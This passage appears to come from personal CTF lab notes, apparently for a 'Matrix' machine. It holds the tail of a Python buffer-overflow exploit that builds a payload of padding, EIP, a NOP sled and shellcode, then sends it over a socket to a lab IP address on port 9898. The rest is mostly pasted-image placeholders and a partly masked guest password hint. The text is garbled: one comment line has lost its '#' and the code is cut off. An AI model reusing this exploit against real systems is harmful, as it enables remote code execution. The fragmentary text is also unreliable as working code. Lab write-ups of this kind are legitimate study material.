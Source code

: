 after_eip = b"\x90" * 32 + shellcode  # ESP

payload = before_eip + eip + after_eip

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.153.156", 9898))
s.send(payload)

 Agregar un bucle infinito para mantener la conexión abierta
while True:
    data = s.recv(1024)
    if not data:
        break
    print(data.decode("utf-8"))

s.close()


![[Pasted image 20231123142700.png]]
![[Pasted image 20231123150302.png]]
![[Pasted image 20231123153652.png]]
![[Pasted image 20231123153830.png]]
![[Pasted image 20231123154053.png]]

![[Pasted image 20231123154247.png]]
![[Pasted image 20231123154348.png]]
![[Pasted image 20231127102822.png]]
![[Pasted image 20231127103333.png]]
![[Pasted image 20231127103526.png]]
![[Pasted image 20231127104711.png]]
![[Pasted image 20231127125211.png]]
![[Pasted image 20231127125225.png]]
![[Pasted image 20231127135620.png]]

![[Pasted image 20231127135558.png]]

![[Pasted image 20231127135729.png]]
![[Pasted image 20231127135921.png]]

You can enter into matrix as guest, with password k1ll0rXX

Note: Actually, I forget last two characters so I have replaced with XX try your luck and find correct string of password.

![[Pasted image 20231127140526.png]]
![[Pasted image 20231127141803.png]]
![[Pasted image 20231127142007.png]]
![[Pasted image 20231127142333.png]]
